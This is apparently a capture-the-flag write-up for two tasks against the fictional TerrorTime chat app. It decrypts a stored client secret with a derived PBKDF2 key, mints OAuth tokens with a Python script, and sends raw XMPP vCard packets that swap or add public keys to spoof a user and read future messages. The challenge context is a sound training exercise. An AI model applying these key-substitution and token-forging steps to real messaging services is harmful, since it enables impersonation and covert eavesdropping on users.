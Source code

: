# Task 6a - Message Spoofing - (Vulnerability Analysis; Cryptanalysis)

*The ability to masquerade as a TerrorTime user is helpful, even when we are not able to access the plaintext version of their messages. We want to be able to send "spoofed" messages (i.e., messages appearing to be from the user we are masquerading as) to other TerrorTime users as a way of disrupting their attack plans. Critically, any conversation we have as the masqueraded user should never be visible to that user the next time they access their account. But complicating matters is the fact that all messages sent and received through TerrorTime are archived on the chat server and downloaded each time a user logs in to their account. For this task, identify a vulnerabilty that will allow you to send/receive messages as a TerrorTime user without that user ever seeing those messages the next time they access their account. To prove your solution, submit the encrypted message body of a spoofed message that was sent from the organization leader to a cell leader. Submit the full client id of the cell leader you chose. Put the organization leader's account in a state such that replies to your spoofed message will never be seen by them, but still readable by you.*

## Solution

For this task, we need to find a vulnerability that will allow us to spoof a message as Hannah to Gittel without Hannah being able to see the message.

In order to spoof a message, we need to figure out how messages are encrypted and sent. Taking a look inside of `encryptMessage`, we can see what is going on for the non-obvious parts of the JSON from the message body.

```java
ref_00 = p1.iterator();
while (bVar1 = ref_00.hasNext(), bVar1 != false) {
    ref_01 = ref_00.next();
    checkCast(ref_01,PublicKey);
    pbVar3 = ref_01.getEncoded();
    ref_02 = CryptHelper.computeKeyFingerprint(pbVar3);
    pSVar4 = CryptHelper.wrapKey(ref_01,pOVar2);
    ref_07.put(ref_02,pSVar4);
}
```

There are two of these while loops for two different iterators. The while loop is going through each object as a public key and using it to create a fingerprint and a corresponding wrapped key, used to decrypt a message. If we look at `p1` and `p2` in the caller, these iterators are the sender's public keys and the recipeient's public keys. With this, we know that only the sender and receiver can decrypt the key that's needed to decypt the actual message. If we are able to manipulate public keys of a sender or receiever, we can choose who is able to read any given message. To figure out how keys are stored, we look at `getPublicKeys`.

```java
ref_00 = ref.getXMPPTCPConnection();
...
ref_00 = ref_02.getJidFromString(jid);
...
pEVar1 = ref_01.asEntityBareJidIfPossible();
pSVar2 = VCardHelper.getPublicKeys(pEVar1);
```

The code refers to user's client IDs as JIDs and uses a VCardHelper object to get the public keys for a JID. vCards, or Virtual Contact Files, are used as an electronic business card and are a standard used in XMPP. From this code, we can see that a user's public keys are stored in their vCard. Since we want to manipulate public keys, we will look at `savePublicKey` and `removePublicKey`. These methods would be ideal for changing someone's vCard. `savePublicKey` is called whenever a user is logged in, however, `removePublicKey` is not called anywhere. While TerrorTime won't be able to remove public keys, a different XMPP client may be able to.

We will use the [Spark](https://www.igniterealtime.org/downloads/index.jsp#spark) client because it can send and receive raw XMPP packets. In order to log in without the app though, we need to generate OAuth tokens and to do that we need to decrypt the client secret from the database. Looking back at `generateSymmetricKey`, we can see how the encryption key for storing data in the database is created.

```java
ref_04 = this.encryptPin;
ref = ref_04.getValue();
...
ref_05 = this.checkPin;
pbVar2 = ref_05.getValue();
...
ref_01 = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256");
pcVar4 = ref.toCharArray();
ref_06 = new KeySpec(pcVar4,pbVar2,0x2710,0x100);
ref_02 = ref_01.generateSecret(ref_06);
pbVar2 = ref_02.getEncoded();
ref_07 = new SecretKeySpec(pbVar2,"AES");
```

This shows that the app uses PBKDF2 to generate a key which is [recommended]((https://android-developers.googleblog.com/2013/02/using-cryptography-to-store-credentials.html)) by the Android developers blog as the highest security for storing credentials safely. (**Note**: This blog is slightly outdated and now SHA-256/10000 iterations is preferred over SHA-1/1000 iterations.) We can use a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=Derive_PBKDF2_key(%7B'option':'UTF8','string':'207698'%7D,256,10000,'SHA256',%7B'option':'Hex','string':'1f86e51f7187772c1c7bb589299162e466f0c99d72abf4a2b04da03e9f70766e'%7D)) in order to generate the AES key and then use that key to decrypt anything in the database.

```
Passphrase: 207698
Key size: 256
Iterations: 10000
Hashing Function: SHA256
Salt: 1f86e51f7187772c1c7bb589299162e466f0c99d72abf4a2b04da03e9f70766e

Output: f25d144f98999dbc195263d031e4678f291f7cab32a32d3756e6dffb1ef097fb
```

Using this key to decrypt the data in the database for `csecret` we get `dKtjzdmMcGaH9I` which is the same length as the client secrets we found in task 1. With this, we can decrypt and encrypt anything for the database. We will now use the client secret to generate OAuth access tokens whenever we want.

```python
# oauth.py

import base64
import requests

token_url = "https://register.terrortime.app/oauth2/token"
client_id = "natalie--vhost-32@terrortime.app"
client_secret = "dKtjzdmMcGaH9I"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization":"Basic " + base64.b64encode(f"{client_id}:{client_secret}".encode()).decode(),
    "X-Server-Select": "oauth"
}
data = {
    "audience": "",
    "grant_type": "client_credentials",
    "scope": "chat"
}

response = requests.post(token_url, headers=headers, data=data)
access_token = response.json()["access_token"]

print(access_token)
```

Using Hannah's client ID and a generated access token, we can login using Spark. When we are logged in, we can look closely at the packets sent and receieved. During this, we see the client requesting Hannah's vCard:

```
<iq to="hannah--vhost-32@terrortime.app/Spark" from="hannah--vhost-32@terrortime.app" id="6tcuX-23" type="result">
  <vCard xmlns="vcard-temp">
    <DESC>-----BEGIN PUBLIC KEY-----
MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQATr4oiwbLWo7RjAwp/GhI8
9e4BqWryLsBvM8DNqx37zbVITmEYoTPdxxfFUGHIelcT7MPftPsifHVm3eSjrdfr
xkFfJNPOhLTSO+48VEfwe8r1EwWAeD1DnGtAf96pDieGkrQ8RjA96fZFg0TCdLj/
yeV0K35MA0cB8cypYm6zkz4JTOANtV8+navU2gFjBvn28FU+S+XM2Oi/2BGK6ifF
CpPR3v5RzKtcFnMZ9zuqA5nukmANt10AQRecEgtgWQrQmmA07umNiOrWSOCApHl6
MmlJuUbmwo+kdvWlREcJrBCiToZmwTzwEc8AFwtpeMPU2jVerTUmNSwsubRfJlaP
AgMBAAE=
-----END PUBLIC KEY-----
    </DESC>
  </vCard>
</iq>
```

Since vCards are a standard, we can find [documentation](https://xmpp.org/extensions/xep-0054.html#sect-idm46144959876880) to change a vCard. For conveinence, we will change Hannah's public key to match Natalie's public key. To update, we send the following packet:

```
<iq id="v2" type="set">
  <vCard xmlns="vcard-temp">
    <DESC>-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1siJaZbaMsr9ErzcfTdi
L+0NszBs1FIVqXVlV9wRs6lqDnyq2d6+ikP5usk8wf3DB1pLsGbGSDtcnjrf8Ug7
4OAWazuK1d537lKN+rX5bIH/yGmOthBC4Q118UVobNl6c3IIVHuntb9p9C3YvKa0
WYF6HohWtfhQnCqy5cStm9d9aDNp9rxluDFecB8bR6vohFcwGQTHls794Rp4OXID
IJjozx9hBq0vL/al21GCnPu82PBbQ1MvltFbwP3GfKyk+aHfkpeixXindQc4/ntv
6qH45Wvy+aBmEhZfJsZL/ZlM+6kyLwuLMUbYfF6kymUSRfkeQ38djJvVKfY/dtac
4QIDAQAB
-----END PUBLIC KEY-----
    </DESC>
  </vCard>
</iq>
```

Now, until Hannah logs in again, she will not be able to see any new message sent to her or from her account. If we masquerade as Hannah, nothing will change because our public key matches her vCard. We can now send a message to any of the cell leaders and using mitm_relay again, we can see the encrypted body of the message which completes this task.

# Task 6b - Future Message Decryption - (Vulnerability Analysis; Cryptanalysis)

*Though we might be unable to decrypt messages sent and received in the past without a user's private key, it may still be possible to view future messages in the clear. For this task generate a new public/private key pair and make whatever changes are necessary such that all future messages sent/received within TerrorTime may be decrypted with this private key. Critically, you can not disrupt future legitimate conversations between users.*

## Solution

For this task, we need to find a vulnerability that will allow us to decrypt any future message sent/received using TerrorTime.

This task takes advantage of the same vulnerability as task 6a - we are able to manipulate the vCard for any user. Instead of removing public keys from a vCard, we are adding a new public key that we control to everyone's vCard. This works since the vCards support mulitple public keys. First we will generate a new key pair:

```
$ openssl genrsa -des3 -out private.pem 2048
Generating RSA private key, 2048 bit long modulus (2 primes)
.............................................................+++++
.........................................................................+++++
e is 65537 (0x010001)
Enter pass phrase for private.pem:
Verifying - Enter pass phrase for private.pem:
$ openssl rsa -in private.pem -outform PEM -pubout -out public.pem
Enter pass phrase for private.pem:
writing RSA key
$ openssl rsa -in private.pem -out private_unencrypted.pem -outform PEM
```

In the database, we change the public key to our newly generated `public.pem`. When we login as a user, our new public key will get added to their vCard automatically. To complete this task, we login as every user discovered in task 5. Since we have the associated private key, we would now be able to view any future messages. To complete the task, we submit our public and private key.
